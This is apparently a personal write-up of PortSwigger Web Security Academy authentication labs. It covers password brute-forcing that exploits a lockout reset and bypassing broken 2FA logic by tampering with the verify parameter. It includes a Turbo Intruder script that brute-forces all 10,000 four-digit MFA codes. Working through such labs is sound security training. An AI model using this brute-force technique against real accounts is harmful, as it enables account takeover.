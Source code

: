 
Bruteforce password
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2babb7fc-d151-4526-b53a-3094b1c018c6)


Different response which mean this is out login
Looks like lockout resets after successful login
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/87432f56-3eef-4340-82af-9ba37168ab76)


**2FA broken logic**

From <https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic> 

Login with initial account 
We get a 2fa prompt
Notice the verify
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9c9b7b55-c986-43e8-9efc-d20d7c511c98)



On our successful 2fa we get the following response notice the verify=
We can change it to Carlos 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/602c07fb-ecc6-4168-a2f6-d3ac3c76f014)


Change to carlos and send request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/001f85f6-38c8-45ca-9c47-1bd71a606d3a)


Change to another user to bypass MFA with initial account 
Than send to intruder and bruteforce MFA
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8e25a317-0e57-4b87-8218-acbd8d24e724)



Payload used
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c193ec4b-ccfa-4f58-b79d-ce5f37214ba9)



Using turbo intruder cause it doesn’t throttle request

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           requestsPerConnection=1,
                           pipeline=True
                           )
    engine.start()

    for i in range(10000):
        engine.queue(target.req, '{0:04}'.format(i))

def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0b6fb6fd-360e-4bce-a710-baf1cdc6d932)
    